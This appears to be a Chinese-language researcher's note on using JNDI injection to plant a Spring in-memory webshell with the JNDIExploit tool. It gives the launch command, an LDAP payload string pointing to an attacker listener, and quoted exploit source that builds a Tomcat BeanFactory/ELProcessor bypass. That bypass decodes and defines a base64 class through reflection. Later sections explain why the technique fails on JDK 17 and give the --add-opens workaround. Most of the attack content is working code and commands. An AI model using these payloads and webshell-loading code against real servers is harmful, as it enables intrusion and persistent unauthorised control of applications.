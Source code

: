 在存在jdni注入的情况下，注入一个Spring的内存马。
开启jdni注入工具：
```
java -jar JNDIExploit-1.2-SNAPSHOT.jar --ip 192.168.17.129 --httpPort 8081
```

请求中插入payload：
```
ldap://192.168.17.129:1389/TomcatBypass/SpringMemshell
```

jndi注入工具收到请求：
![image](https://user-images.githubusercontent.com/30398606/174015267-93d53012-99f1-4bbf-9785-e1779d549928.png)


相关注入代码：
com.feihong.ldap.gadgets.utils.Gadgets #createTemplatesImpl (PayloadType type, Class<T> tplClass, Class<?> abstTranslet, Class<?> transFactory, String... param)
  
```java
  byte[] classBytes = null;
        switch (type){
            ...
            case springmemshell:
                classBytes = Cache.get("SpringMemshellTemplate");
                break;
            ...
         }
```

com.feihong.ldap.utils.Cache中注入：
```java
      static{
        try {
            //过期时间100年，永不过期的简单方法
            map.put("TomcatEchoTemplate", Util.getClassBytes(TomcatEchoTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("SpringEchoTemplate", Util.getClassBytes(SpringEchoTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("WeblogicEchoTemplate", Util.getClassBytes(WeblogicEchoTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("TomcatMemshellTemplate1", Util.getClassBytes(TomcatMemshellTemplate1.class), 365 * 100, TimeUnit.DAYS);
            map.put("TomcatMemshellTemplate2", Util.getClassBytes(TomcatMemshellTemplate2.class), 365 * 100, TimeUnit.DAYS);
            map.put("JettyMemshellTemplate", Util.getClassBytes(JettyMemshellTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("WeblogicMemshellTemplate1", Util.getClassBytes(WeblogicMemshellTemplate1.class), 365 * 100, TimeUnit.DAYS);
            map.put("WeblogicMemshellTemplate2", Util.getClassBytes(WeblogicMemshellTemplate2.class), 365 * 100, TimeUnit.DAYS);
            map.put("JBossMemshellTemplate", Util.getClassBytes(JBossMemshellTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("WebsphereMemshellTemplate", Util.getClassBytes(WebsphereMemshellTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("SpringMemshellTemplate", Util.getClassBytes(SpringMemshellTemplate.class), 365 * 100, TimeUnit.DAYS);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static byte[] get(String key){
        return map.get(key);
    }

    public static void set(String key, byte[] bytes){
        map.put(key, bytes);
    }
```

com.feihong.ldap.controllers.TomcatBypassController
```java
    @Override
    public void sendResult(InMemoryInterceptedSearchResult result, String base) throws Exception {
        System.out.println("[+] Sending LDAP ResourceRef result for " + base + " with javax.el.ELProcessor payload");

        Entry e = new Entry(base);
        e.addAttribute("javaClassName", "java.lang.String"); //could be any
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=eval"));

        TomcatBypassHelper helper = new TomcatBypassHelper();
        String code = null;
        switch (type){
  
            case springmemshell:
                code = helper.injectSpringMemshell();
                break;
        ...
        }
```
  
com.feihong.ldap.controllers.TomcatBypassController$TomcatBypassHelper
```java

        public String injectSpringMemshell(){
            return injectMemshell(SpringMemshellTemplate.class);
        }
  
        public String injectMemshell(Class clazz){
            //使用类加载的方式最为方便，可维护性也大大增强

            String classCode = null;
            try{
                classCode = Util.getClassCode(clazz);
            }catch(Exception e){
                e.printStackTrace();
            }

            String code = "var bytes = org.apache.tomcat.util.codec.binary.Base64.decodeBase64('" + classCode + "');\n" +
                    "var classLoader = java.lang.Thread.currentThread().getContextClassLoader();\n" +
                    "try{\n" +
                    "   var clazz = classLoader.loadClass('" + clazz.getName() + "');\n" +
                    "   clazz.newInstance();\n" +
                    "}catch(err){\n" +
                    "   var method = java.lang.ClassLoader.class.getDeclaredMethod('defineClass', ''.getBytes().getClass(), java.lang.Integer.TYPE, java.lang.Integer.TYPE);\n" +
                    "   method.setAccessible(true);\n" +
                    "   var clazz = method.invoke(classLoader, bytes, 0, bytes.length);\n" +
                    "   clazz.newInstance();\n" +
                    "};";

            return code;
        }
```

com.feihong.ldap.utils.Util
```java
    public static String getClassCode(Class clazz) throws Exception {
        byte[] bytes = getClassBytes(clazz);
        String result = Util.base64Encode(bytes);

        return result;
    }
  
    public static byte[] getClassBytes(Class clazz) throws Exception {
        String className = clazz.getName();
        String resoucePath = className.replaceAll("\\.", "/") + ".class";
        InputStream in = Util.class.getProtectionDomain().getClassLoader().getResourceAsStream(resoucePath);
        byte[] bytes = new byte[1024];
        ByteArrayOutputStream baous = new ByteArrayOutputStream();
        int len = 0;
        while((len = in.read(bytes)) != -1){
            baous.write(bytes, 0 , len);
        }

        in.close();
        baous.close();

        return baous.toByteArray();
    }
```

Ref:
- https://github.com/shadowsock5/JNDIExploit/blob/a3addc8d5fb3281d9ea95f9fbcc85e14ebb8dd25/src/main/java/com/feihong/ldap/controllers/TomcatBypassController.java

  
```java
javax.script.ScriptEngineManager #getEngineByName("JavaScript")
```
在JDK-17.0.2，下执行失败，找不到这个Engine。

而在JDK-11下：
![image](https://user-images.githubusercontent.com/30398606/174246137-e5604d2f-5f75-4ea1-994e-29da96ca9113.png)
没有问题。
![image](https://user-images.githubusercontent.com/30398606/174246969-f0b2b684-22eb-4eef-831c-3707f8b37404.png)

  开始还以为是jdk-17对jndi的注入有什么限制，后来发现原来不是，依然可以绕过，只是获取不到`getEngineByName("JavaScript")`
原来是
> Java 15 removed [Nashorn JavaScript Engine](https://golb.hplar.ch/2020/04/java-javascript-engine.html)

推荐使用`GraalVM JavaScript engine`？但是需要添加依赖：
```xml
<dependency>
  <groupId>org.graalvm.js</groupId>
  <artifactId>js</artifactId>
  <version>22.0.0</version>
</dependency>  
<dependency>
  <groupId>org.graalvm.js</groupId>
  <artifactId>js-scriptengine</artifactId>
  <version>22.0.0</version>
</dependency>
```
然后使用方法：
```java
// Graal
ScriptEngine graalEngine = new ScriptEngineManager().getEngineByName("graal.js");
graalEngine.eval("print('Hello World!');");
```
查看哪些Engine可以用：
```java
new ScriptEngineManager().getEngineFactories();
```
  
### JDK 17下的内存马失败
- https://www.bennyhuo.com/2021/10/02/Java17-Updates-06-internals/
- https://stackoverflow.com/questions/41265266/how-to-solve-inaccessibleobjectexception-unable-to-make-member-accessible-m
- https://openjdk.org/jeps/396
- https://openjdk.org/jeps/403

JDK-17下，
  ![image](https://user-images.githubusercontent.com/30398606/174250896-348355dc-04cd-437c-909b-54748b182a76.png)

  
尝试使用这个：
  https://github.com/lz2y/yaml-payload-for-ruoyi/blob/main/src/main/java/artsploit/AwesomeScriptEngineFactory.java
  但是：
  ![image](https://user-images.githubusercontent.com/30398606/174265414-fdadcbae-6b3b-4e39-9f4c-bb6c62e95b17.png)
```
java.lang.reflect.InaccessibleObjectException: Unable to make protected final java.lang.Class java.lang.ClassLoader.defineClass(byte[],int,int) throws java.lang.ClassFormatError accessible: module java.base does not "opens java.lang" to unnamed module @2d127a61
```

即便用SpEL表达式封装，也不能bypass这个JDK17的限制：
![image](https://user-images.githubusercontent.com/30398606/174535345-52323d09-7c14-4a9a-ac1d-4775f293f731.png)

  
> 403 强封装JDK的内部API
简而言之就是java内部的大部分类，除了关键的内部API，如sun.misc.Unsafe类，都进行强封装，默认情况下不允许开发人员利用反射等手段去访问内部非public的类、成员变量等，使java更加安全。
但是可以通过设置参数–add-export或–add-opens来指定哪些类可以被访问。

```
--add-opens java.base/java.lang=ALL-UNNAMED
```
意思是将，`java.base`这个模块下的`java.lang`这个package下的API开放给所有unnamed的模块（ALL-UNNAMED）使用。
Ref：
- https://blog.csdn.net/aitutou/article/details/124248255
  
```
为了使用内存马，需要通过反射调用ClassLoader#defineClass 但是java.lang.ClassLoader的defineClass方法并不是public的。
JDK17 高版本，禁止了反射调用这些API。
  
我们自己写的代码，被认为是 unnamed module;
JDK17中的java.base这个module并不把java.lang这个package对我们这个 unnamed module开放（opens java.lang to unnamed module）

```
Ref:
  - https://stackoverflow.com/questions/71481562/use-javascript-scripting-engine-in-java-17
  - https://github.com/keycloak/keycloak/issues/9945
